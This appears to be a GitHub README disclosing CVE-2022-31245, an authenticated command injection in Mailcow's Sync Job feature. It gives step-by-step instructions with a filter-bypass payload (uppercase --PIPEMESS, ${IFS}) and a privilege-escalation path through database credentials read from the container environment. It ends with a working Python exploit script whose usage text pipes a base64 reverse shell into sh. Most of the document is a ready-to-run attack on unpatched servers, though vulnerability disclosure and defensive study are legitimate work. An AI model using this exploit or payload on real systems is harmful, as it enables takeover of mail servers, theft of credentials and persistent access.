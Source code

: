 # Mailcow CVE-2022-31245
CVE-2022-31245: RCE and Domain Admin privilege escalation for Mailcow. Including POC.</br>

Reported and fixed: 2022-05

Patched Version: https://github.com/mailcow/mailcow-dockerized/releases/tag/2022-05d </br>
CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31245

## CVE-2022-31245: Command Injection, RCE
Severity: 3/3 </br>
Type: Command Injection, RCE, Domain Takeover </br>
Affected versions: least 2019 - 2022-05c </br>

A flaw exists in all recent Mailcow versions where a regular user of the system can exploit the “Sync Job” feature to gain a shell using a command injection in imapsync. Using this vunerability a attacker can then easily pivot to the database and escalate privileges to the role of “Domain Admin” in Mailcow.

This exploit includes persistence by default since Sync Jobs run on a timer.

This exploit compromises the entire Mailcow instance. Tested and working on release as of 2022-05c. Patched in 2022-05d.


### Technical overview
Using the steps below the vulnerability can be recreated.

Gaining shell:
1. Go to the Mailcow login page (not SOGo)
2. Login as a regular user
3. Go to Sync Jobs
4. Set the following values: `hostname=MAILCOW_IP, Port=IMAP_PORT, Username=CURRENT_USER, Password=CURRENT_PASS, Encryption=PLAIN, Interval=1, Active=Check, Custom Parameters=--debug --nosslcheck --PIPEMESS=CMD`
Where the field "Custom Parameters" is the important field. CMD can be a arbitrary shell command without spaces. Using uppercase is important!
5. Press save and wait 1 min for the command to execute.

Custom Parameters example payload:
```
--debug --nosslcheck --PIPEMESS=touch${IFS}test.txt
```
CMD cannot contain space,quotes or slashes use ${IFS} instead of space. Uppercase for `--PIPEMESS` is important to bypass check in `functions.mailbox.inc.php` at line `340`:

```c
if (strpos($custom_params, 'pipemess')) {
	$custom_params = '';
}
```
This uppercase command still works due to the fact that `imapsync` is case insensitive.

Privilege Escalation:
1. After gaining shell on the dovcot container run `env`
2. Find `DBUSER` and `DBPASS`
3. Login to database using `mysql` and credentials
4. Create new admin user or create a new admin API-key


### Proof-of-Concept, POC
Automated POC. POC could in some cases need modification to run against non-local Mailcow instances.
```python
#!/bin/python3

description = """

Mailcow authenticated RCE. Only for educational purposes!!
By: ly1g3[at]tuta.io

This exploit can be used to get mailcow domain admin using mysql credentials found in "env" after getting shell.
Quotes, spaces and slash cant be used in cmd. Use ${IFS} as space. End command with ; is recommended.
Example reverse shell use: --cmd 'echo${IFS}PYTHON_REVERSE_SHELL_BASE64${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}sh;' where PYTHON_REVERSE_SHELL_BASE64 is python reverse shell.


Example usage: ./mailcow_poc1.py --url https://192.168.1.2 --user test@local.com --passwd testpass --cmd 'echo${IFS}PYTHON_REVERSE_SHELL_BASE64${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}sh;'

"""


import requests
import urllib
import sys
from urllib.parse import urlparse
import argparse
from argparse import RawTextHelpFormatter
from datetime import datetime


parser = argparse.ArgumentParser(description=description, formatter_class=RawTextHelpFormatter)
parser.add_argument('--url', help='Url to the mailcow server', required=True)
parser.add_argument('--user', help='Mailcow username, example test@mailcow.com', required=True)
parser.add_argument('--passwd', help='Mailcow user password', required=True)
parser.add_argument('--cmd', help='Command to execute', required=True)

args = parser.parse_args()


base_url = args.url
# hostname = urlparse(base_url).netloc
hostname = '127.0.0.1'
user = args.user
password = args.passwd
cmd = args.cmd


# Get the required csrf token
def find_csrf_token(text):
    try:
        start1 = text.index("var csrf_token")
        start2 = text.index("'", start1)
        end2 = text.index("'", start2+1)
        csrf_token = text[start2+1:end2]
        return csrf_token
    except:
        return ""

login_url = base_url + '/'

s = requests.Session()

# Login
r1 = s.post(login_url, data={'login_user': user, 'pass_user': password}, verify=False)

token = find_csrf_token(r1.text)
if not token:
    print("Error no token found, login problems?")
    sys.exit(0)
print(f"CSRF token: {token}")


sync_url = base_url + '/api/v1/add/syncjob'

# Create sync job with command injection
attr = f'{{"host1":"{hostname}","port1":"143","user1":"{user}","password1":"{password}","enc1":"PLAIN","mins_interval":"1","subfolder2":"","maxage":"0","maxbytespersecond":"0","timeout1":"10","timeout2":"10","exclude":"(?i)spam|(?i)junk","custom_params":"--debug --nosslcheck --PIPEMESS={cmd}","subscribeall":"1","active":"1","csrf_token":"{token}"}}'
r2 = s.post(sync_url, data={'attr': attr, 'csrf_token': token}, verify=False)

c = r2.content
if c.find(b"mailbox_modified") != -1:
    print("Success, rule modified")
elif c.find(b"object_exists") != -1:
    print("ERROR: Object exists, remove existing rule before running this")
    print(c)
    sys.exit(0)
else:
    print("ERROR: Something went wrong")
    print(c)
now = datetime.now()
current_time = now.strftime("%H:%M:%S")
print("Command may take 1min to execute...")
print(f"Done at: {current_time}")

